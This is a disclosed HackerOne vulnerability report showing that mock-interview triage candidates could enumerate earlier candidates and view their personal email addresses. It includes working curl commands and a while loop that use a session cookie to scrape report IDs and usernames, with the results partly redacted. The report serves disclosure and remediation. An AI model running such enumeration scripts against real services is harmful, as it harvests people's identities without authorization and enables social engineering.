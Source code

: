 # People who interviewed for HackerOne security analyst position can be enumerated and their personal email address may be exposed

## Report Details
- **Report ID**: 353310
- **URL**: https://hackerone.com/reports/353310
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-05-17T05:43:22.396Z
- **Disclosed**: 2018-06-25T21:38:12.769Z

## Reporter
- **Username**: testdefense
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
It's possible to gather basic information on potential employees (at the very least who interviewed) via old sample reports not being removed from the program
**Description:**
This report is meant to provide awareness of potentially private data being accessed by potential candidates.

When given access to the h1triage program as a potential candidate, I found that I was able to view prior candidate's answers to the interview questions/scenarios as well as non-hackerone email addresses.
### Steps To Reproduce potential private email disclosure

1. Sign in as a member of the h1triage team (mock triage interview)
2. Browse to https://hackerone.com/h1triage/groups/25396/members/edit
████

### Steps To Reproduce candidate disclosure

1. Gather all reports submitted to the interview program. For sake of time I have included a curl command to gather this information. The only thing required to duplicate is a valid cookie that has access to the h1triage program

`curl --silent --cookie '<COOKIE>' -H 'Accept: application/json, text/javascript, */*; q=0.01' 'https://hackerone.com/bugs.json?subject=h1triage&report_id=222368&view=all&substates%5B%5D=new&substates%5B%5D=triaged&substates%5B%5D=needs-more-info&substates%5B%5D=resolved&substates%5B%5D=informative&substates%5B%5D=not-applicable&substates%5B%5D=duplicate&substates%5B%5D=spam&reported_to_team=&text_query=&program_states%5B%5D=2&program_states%5B%5D=3&program_states%5B%5D=4&program_states%5B%5D=5&sort_type=latest_activity&sort_direction=descending&limit=1000&page=1' | tr ',' '\n' | grep -E '^\"id' | cut -d ':' -f 2 > ~/Desktop/reports.txt`

This will provide a list of reports that had been created for the interview process (130 in total):

... snippet ...
352430
302753
283278
273850
218861
224701
224703
224705
224737
224738
273847
283279
283285
302752
302751
302743
302756
302750
283280
283291
283284
283283
283282
273848
... snippet ...

2. Use this list to gather all triagers (potential employees). Again, a simple while loop using curl to gather said information.

`while read -r id; do curl --silent --cookie '<COOKIE>' -H 'Accept: application/json, text/javascript, */*; q=0.01' "https://hackerone.com/reports/$id.json" | tr ',' '\n' | grep -Eo 'username.*\"' | cut -d '"' -f 3 >> ~/Desktop/candidates.txt; done < ~/Desktop/reports.txt`

What you'll be left with is a list of all potential candidates in the past year (some are hackerone employees on interview team or the fake reporter):

███████
███
███
██████████
███████
██████████
███
████████
████████
██████████
█████████
██████
██████
██████
████████
█████
███████
██████████
████████
██████
r3naissance
███
█████
████
████████
████

This list can be used to gather information on the candidate (ie, see if they were accepted as a triager) by looking up their profile and identifying if they are a member of the HackerOne team.

3. Another while loop could be used to enumerate which candidates passed the interview process and were accepted as triagers but an exmaple request can be seen below to illustrate the point.
██████████

### Resolution
The wisest choice would be to dispose of candidate information and reports as soon as they are not needed to remove the risk of potential leakage.

## Impact

While the impact is limited to candidates that passed the first round of interviews, it's still plausible that a threat actor may pose as a candidate to gain access to this information and use it to illicit social engineering attacks.

## Attachments
No attachments
